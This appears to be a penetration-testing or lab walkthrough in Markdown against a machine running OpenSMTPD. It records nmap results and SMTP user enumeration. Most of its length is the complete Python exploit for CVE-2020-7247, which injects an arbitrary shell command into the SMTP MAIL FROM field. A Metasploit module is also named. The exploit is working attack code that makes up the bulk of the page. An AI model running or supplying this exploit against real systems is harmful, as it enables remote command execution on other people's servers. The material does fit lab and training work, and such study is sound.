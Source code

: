 # Recon
## Initial scans
### nmap
|Scan type|Results|Link|
|---------|-------|----|
|syn      |Ports open(22, 25, 80, 445); Ports closed (53)|Add link here|
## Ports and services
|Port|Service|OS|Version|Status|
|----|-------|--|-------|------|
|22|ssh|?|?|open|
|25|smtp|?|?|open|
|53|domain|?|?|closed|
|80|http|?|?|open|
|445|microsoft-ds|?|?|open|

### Simple Mail Transfer Protocol
#### SMTP port scan

~~~ bash
nmap IP --script smtp-enum-usrs.nse

  25/tcp open smtp
| smtp-enum-users:
| root
~~~
#### User enumeration

|service|port|status|type|username|password|version|vulnerable|
|-------|----|-------|---|----|--------|-----|------|
|SMTP|25|open|tcp|root|?|2.0|yes|

~~~ bash

searchsploit opensmtp
# returns 47984.py exploit

~~~

## Vulnerability

### SMTP
The target machine is running several applications, including OpenSMTP version 2.0 on port 25.  This version of OpenSMTP has several vulnerabilities.
## Exploit

[Python exploit](https://www.exploit-db.com/exploits/47984)

~~~ python
# Python exploit

# Exploit Title: OpenSMTPD 6.6.1 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
#
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done') 

~~~

[Metasploit exploit](exploit/unix/smtp/opensmtpd_mail_from_rce)
